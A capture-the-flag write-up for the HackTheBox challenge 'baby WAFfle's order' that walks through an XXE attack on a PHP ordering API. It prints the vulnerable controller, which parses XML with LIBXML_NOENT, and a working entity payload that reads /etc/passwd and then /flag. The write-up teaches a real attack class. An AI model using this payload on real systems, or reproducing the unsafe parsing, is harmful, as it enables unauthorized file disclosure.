 # Challenge Description
Our WAFfles and ice scream are out of this world, come to our online WAFfles house and check out our super secure ordering system API!

# Analysis
To begin the challenge we visit the service IP and port provided on HTB.


Checking the page title gives away the actual exploitation path.

![WAF-1](https://user-images.githubusercontent.com/87711310/211150841-0ac2c969-6ff8-40fc-a848-98fc7eb1341c.png)

Now that we know the attack path we fire up `burpsuite` to intercept our order request. By making a post
request we see that our request is sent via a `json` request to the `api/order` endpoint.

Understanding what's happening here we check the `OrderController.php` provided by HTB.

```php
<?php
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            return json_encode([
                'status' => 'success',
                'message' => "Your {$order->food} order has been submitted successfully."
            ]);
        }
        else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
        else
        {
            return $router->abort(400);
        }
    }
}
```

So reviewing this code we see that we may either post to the API with `application/json` content type or we
may submit a `application/xml` content type. This is useful to know since we can leverage `XML injections` with
a specific XML formatted payload. By changing the content type in our `POST` request to `application/xml` and
then submitting a XML based payload with `order` and `food` as our entities, we can render the contents of
files within the system in our response.

You can learn more about XXE from [here](https://portswigger.net/web-security/xxe).

We can use the following code as a exploit for this exercise:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<order>
<food>&xxe;</food>
</order>
```
![baby-WAFfle-order-1](https://user-images.githubusercontent.com/87711310/211150844-53dbef1b-d4cd-4452-beaf-adfab0562796.png)

But we don't know where the flag is at this stage. Taking a wild guess and trying different places we can
find the flag located at `/flag` and call this through our request to return the flag.

![baby-WAFfle-order-2](https://user-images.githubusercontent.com/87711310/211151014-29c15311-90e7-4187-8069-1fe413079bf4.png)

And we have obtained the flag!!!
